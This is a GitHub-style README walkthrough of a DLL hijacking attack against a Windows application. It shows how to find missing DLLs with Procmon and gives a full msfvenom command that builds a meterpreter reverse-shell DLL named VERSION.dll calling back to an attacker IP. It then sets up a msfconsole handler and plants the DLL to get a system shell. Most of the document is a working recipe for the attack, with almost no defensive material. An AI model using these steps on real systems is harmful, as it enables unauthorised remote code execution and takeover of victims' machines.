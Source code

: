 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom

## Lab Setup
- Create two virtual machine:
  - **Windows OS** for executing exe application *(Victim Machine)*
  - **Kali Linux** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> **Step-3: Now find the Dlls which are trying to load from current working application and is not available** ***(e.g: VERSION.DLL)*** 
            Application is trying to load this DLL but not able to find in to the application directory.
            
> **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```

> **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 

> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application**

   As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.

